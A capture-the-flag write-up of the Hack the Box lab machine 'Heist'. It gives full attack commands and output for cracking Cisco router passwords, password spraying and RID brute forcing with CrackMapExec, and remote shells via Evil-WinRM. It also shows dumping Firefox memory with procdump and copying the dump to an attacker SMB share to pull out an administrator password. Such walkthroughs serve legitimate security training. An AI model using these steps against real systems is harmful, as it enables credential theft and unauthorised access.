


# Hack the Box - Machine - Heist
Author: MinatoTW 
Release Date: August 10, 2019

## Machine Description
An easy level Windows box

## Tools Used
- nmap
- [cisco password cracker](https://www.ifm.net.nz/cookbooks/passwordcracker.html)
- John the Ripper
- CrackMapExec
- Evil-WinRM
- [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)

## Write Up

nmap has indicated a IIS webserver on port 80

```
80/tcp    open  http          Microsoft IIS httpd 10.0
```

Let's Check out the webpage, it redirects us to login.php:



We can log in as guests. Let try that. It redirects us to issues.php



We see that the user Hazard has trouble with a cisco router config, which he posted and also requests the admin to create him a user account on the windows server. If we check out the attachment we get redirected to [/attachments/config.txt](./files/ciscorouterconfig.txt) and it shows the cisco router config. We can also start creating a known [username file](./files/users.txt)

```
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408

```
We can use [https://www.ifm.net.nz/cookbooks/passwordcracker.html](https://www.ifm.net.nz/cookbooks/passwordcracker.html) to crack the cisco type 7 passwords, and we start getting credentials and adding them to a known [password file](./files/passwords.txt)

```
rout3r:$uperP@ssword
admin:Q4)sJu\Y8qz*A3?d
```

The website can als0 crack type 5 password, but its pure brute force. Let use John the Ripper so we can use a word list.

```
$ john -w=/usr/share/wordlists/rockyou.txt hashes.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)     
1g 0:00:00:09 DONE (2022-08-19 22:26) 0.1059g/s 371349p/s 371349c/s 371349C/s stealthy001..ste88dup
Use the "--show" option to display all of the cracked passwords reliably
```

We get a third password that we can add to our [password file](./files/passwords.txt):

```
stealth1agent 
```

Let use CrackMapExec to see if our password work with the hazard or administrator user:

```
$ crackmapexec smb 10.129.96.157 -u hazard -p ~/ctf/htb/machines/heist/files/passwords.txt   
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 

```
No luck on administrator, but we did get credentials for hazard:stealth1agent.

We can try connecting to the machine with evil-winrm:

```
$ evil-winrm -i 10.129.96.157 -u hazard -p stealth1agent

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
```

That didnt work. Let's use crackmap exec to enumerate more users using RID brute forcing:

```
$ crackmapexec smb 10.129.96.157 -u hazard -p stealth1agent --rid-brute                          
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.129.96.157   445    SUPPORTDESK      [+] Brute forcing RIDs
SMB         10.129.96.157   445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.129.96.157   445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)

```

We get more users (support, Chase, Jason). Let add them to our users file and use crackmap exec to see if any of our known passwords work with them:

```
$ crackmapexec smb 10.129.96.157 -u chase -p ~/ctf/htb/machines/heist/files/passwords.txt
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\chase:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
```

No luck for support or Jason but we get credentials for chase:Q4)sJu\Y8qz*A3?d. Lets try to connect with these new credentials:

```
$ evil-winrm -i 10.129.96.157 -u chase -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

We now have our initial foot hold into the system. Let see if we have a user flag on the desktop.

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-ar---        8/20/2022   7:15 AM             34 user.txt
```


There is the user flag!. Let check out the todo.txt document:

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

Looks like he is constantly checking the issues list. Maybe the is a process that is running to check the issues list:

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> get-process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    456      18     2240       5408               532   0 csrss
    290      13     2332       5244               644   1 csrss
    357      15     3532      14712              2360   1 ctfmon
    252      14     3928      13416              3928   0 dllhost
    166       9     1856       9740       0.02   6980   1 dllhost
    618      32    30328      58232               860   1 dwm
   1497      58    23808      79048              4776   1 explorer
    378      28    21796      58504       0.36   4376   1 firefox
   1087      70   141600     219576       6.31   6716   1 firefox
    347      19    10072      35520       0.38   6860   1 firefox
    356      25    16452      39128       0.13   6960   1 firefox
    401      34    31592      91108       1.00   7076   1 firefox
     49       6     1508       3880               936   0 fontdrvhost
     49       6     1792       4668               944   1 fontdrvhost
      0       0       56          8                 0   0 Idle
...more

```

Not to much stands out. But the firefox procesess do, could the issues list refer to the /issues.php webpage? lets use a tool called procdump to 

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> upload procdump64.exe C:\Users\chase\desktop\procdump64.exe
Info: Uploading procdump64.exe to C:\Users\chase\desktop\procdump64.exe

                                                             
Data: 535060 bytes of 535060 bytes copied

Info: Upload successful!
```

Let dump the firefox process memory

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> .\procdump64.exe -ma 6716 firefox.dmp

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[08:54:49] Dump 1 initiated: C:\Users\Chase\Desktop\firefox.dmp
[08:54:49] Dump 1 writing: Estimated dump file size is 503 MB.
[08:54:50] Dump 1 complete: 503 MB written in 1.4 seconds
[08:54:50] Dump count reached.

```

Transfer the file. Start an SMB server on the attacker machine:

```
$ impacket-smbserver -smb2support -username guest -password guest share /home/shelldrake/smbshare
```

connect to the share and transfer the file:

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> net use m: \\10.10.14.25\share /user:guest guest
The command completed successfully.

*Evil-WinRM* PS C:\Users\Chase\Desktop> cmd /c "copy firefox.dmp m:\"
        1 file(s) copied.
```

Once we get the memory dump we can use strings to look for anythign interesting like a password:

```
$ strings firefox.dmp | grep password
...
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
...

```

We get an other password(4dD!5}x/re8]FBuZ) we can add to our [password file](./files/passwords.txt) and we can try it on our known users:

```
rackmapexec smb 10.129.96.157 -u administrator -p ~/ctf/htb/machines/heist/files/passwords.txt
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\administrator:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\administrator:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\administrator:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
```

Looks like we have an administrator password. Let log in and get the flag:

```
$ evil-winrm -i 10.129.96.157 -u administrator -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/20/2022   7:15 AM             34 root.txt
```

We have the root flag!